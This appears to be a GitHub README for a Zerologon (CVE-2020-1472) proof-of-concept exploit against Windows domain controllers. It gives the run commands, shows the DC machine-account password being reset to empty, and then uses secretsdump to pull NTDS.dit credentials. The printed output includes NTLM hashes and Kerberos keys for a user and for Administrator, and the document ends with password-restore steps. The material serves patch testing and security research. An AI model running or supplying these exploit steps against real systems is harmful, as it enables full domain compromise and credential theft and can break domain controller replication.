


# CVE-2020-1472 - Zero-Logon POC
<p align='center'>
  
</p>


This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  
</p>
    
## Before Zerologon 

<p align='center'>
  
</p>
Unable to dump secrets!

## Performing Zerologon Attack!

    huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
    Performing authentication attempts...
    ==================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!


<p align='center'>
  
</p>

## After Zerologon
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
    [*] Kerberos keys grabbed
    huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
    huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
    huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
    [*] Cleaning up... 
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
    [*] Cleaning up... 

<p align='center'>
  
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
